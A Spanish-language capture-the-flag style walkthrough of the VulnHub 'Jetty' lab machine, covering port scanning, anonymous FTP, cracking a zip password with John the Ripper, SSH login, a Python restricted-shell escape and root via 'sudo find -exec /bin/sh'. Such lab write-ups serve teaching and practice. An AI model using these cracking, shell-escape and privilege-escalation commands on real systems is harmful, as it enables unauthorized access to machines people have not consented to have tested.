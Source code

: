# Write Up Jetty VulnHub

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-24 05:41 EDT
Nmap scan report for 192.168.5.201
Host is up (0.00070s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.5.175
|      Logged in as ftp
|      TYPE: ASCII
|      Session bandwidth limit in byte/s is 2048000
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rwxrwxrwx    1 ftp      ftp           306 Oct 06  2018 README.txt [NSE: writeable]
|_-rwxrwxrwx    1 ftp      ftp           226 Oct 06  2018 sshpass.zip [NSE: writeable]
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 4 disallowed entries 
|_/dir/ /passwords/ /facebook_photos /admin/secret
65507/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a0:5b:e6:bb:fd:f6:02:ec:f0:bd:a1:be:b8:97:84:ba (RSA)
|   256 e9:d3:50:26:7e:5a:c2:a0:b0:89:c9:f4:64:d8:aa:b0 (ECDSA)
|_  256 2e:67:c1:af:cc:22:5c:59:15:5f:97:f7:2e:1b:e0:93 (ED25519)
MAC Address: 00:0C:29:39:5C:73 (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.10 seconds
```

### ftp

```shell
ftp anonymous@<IP>
```

Nos encontraremos con 2 archivos...

```shell
get README.txt

get sshpass.zip
```

El archivo `README.txt` contiene lo siguiente...

```
Hi Henry, here you have your ssh's password. As you can see the file is encrypted with the default company's password. 
Please, once you have read this file, run the following command on your computer to close the FTP server on your side. 
IT IS VERY IMPORTANT!! CMD: service ftp stop. 

Regards, Michael.
```

No da una pista de que el `.zip` esta protegido por una contraseña y contiene la contraseña del `ssh` del usuario `Henry`...

Por lo que haremos lo siguiente...

```shell
zip2john sshpass.zip > hash
```

Info:

```
ver 1.0 efh 5455 efh 7875 sshpass.zip/sshpass.txt PKZIP Encr: 2b chk, TS_chk, cmplen=38, decmplen=26, crc=CA21C815 ts=45E9 cs=45e9 type=0
```

```shell
john --wordlist=<WORDLIST> hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
seahorse!        (sshpass.zip/sshpass.txt)     
1g 0:00:00:00 DONE (2024-06-24 05:47) 1.612g/s 2114Kp/s 2114Kc/s 2114KC/s sharda16..saytown
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Veremos la contraseña que decomprime el `.zip` del `ssh`...

```shell
unzip sshpass.zip
```

Y metemos la contraseña `seahorse!`...

Nos dara un archivo llamado `sshpass.txt` que contiene lo siguiente...

```
Squ1d4r3Th3B3$t0fTh3W0rLd
```

### Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt,md -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.201/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              md,html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.md         (Status: 403) [Size: 300]
/.htaccess.html       (Status: 403) [Size: 302]
/.htaccess.php        (Status: 403) [Size: 301]
/.htaccess.txt        (Status: 403) [Size: 301]
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd            (Status: 403) [Size: 297]
/.htpasswd.php        (Status: 403) [Size: 301]
/.htpasswd.html       (Status: 403) [Size: 302]
/.htpasswd.txt        (Status: 403) [Size: 301]
/.htpasswd.md         (Status: 403) [Size: 300]
/index.html           (Status: 200) [Size: 23]
/recoverpassword.txt  (Status: 200) [Size: 1029]
/robots.txt           (Status: 200) [Size: 104]
/robots.txt           (Status: 200) [Size: 104]
/server-status        (Status: 403) [Size: 301]
Progress: 102345 / 102350 (100.00%)
===============================================================
Finished
===============================================================
```

Pero poca cosa, si vamos a la descripcion de VulnHub en la que nos detalla el sistema, veremos lo siguiente...

```
Extra information:

- The suspicious username is Squiddie.
- He was in charge of the ticket selling for the Aquarium.
- Ethernet settings set to NAT with DHCP enabled.
- You should find the IP in your VLAN.
```

Y si probamos el nombre de usuario `squiddie` en el `ssh` con la contraseña encontrada anteriormente, veremos que es esa...

```
User = squiddie
Password = Squ1d4r3Th3B3$t0fTh3W0rLd
```

```shell
ssh squiddie@<IP> -p 65507
```

Una vez dentro veremos que tenemos restringido casi todo, pero si hacemos lo siguiente...

```shell
help
```

Info:

```
cd  clear  exit  help  history  lpath  ls  lsudo  pwd  python  whoami
```

Vemos que solo podemos hacer esos y el que nos interesa es el de `python`...

```shell
python
```

```python
import os
os.system('/bin/bash')
```

Poniendo eso dentro del entorno de `python` nos dara una shell de `bash` por lo que ya habriamos escapado y podremos hacer cualquier comando sin estar de forma restringida...

Leeremos la flag...

> user.txt (flag1)

```
dd69f649f3e5159ddd10b83b56b2dda2
```

Si hacemos `sudo -l` veremos lo siguiente...

```
Matching Defaults entries for squiddie on jetty:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User squiddie may run the following commands on jetty:
    (ALL) NOPASSWD: /usr/bin/find
```

Veremos que podemos hacer `find` como `root` por lo que haremos lo siguiente para ser `root`...

```shell
sudo find . -exec /bin/sh \; -quit
```

Y con esto ya seriamos `root`, por lo que leeremos la flag...

> proof.txt (flag2)

```
136d05d01c8af5d3e3520d2c270f91f1
```
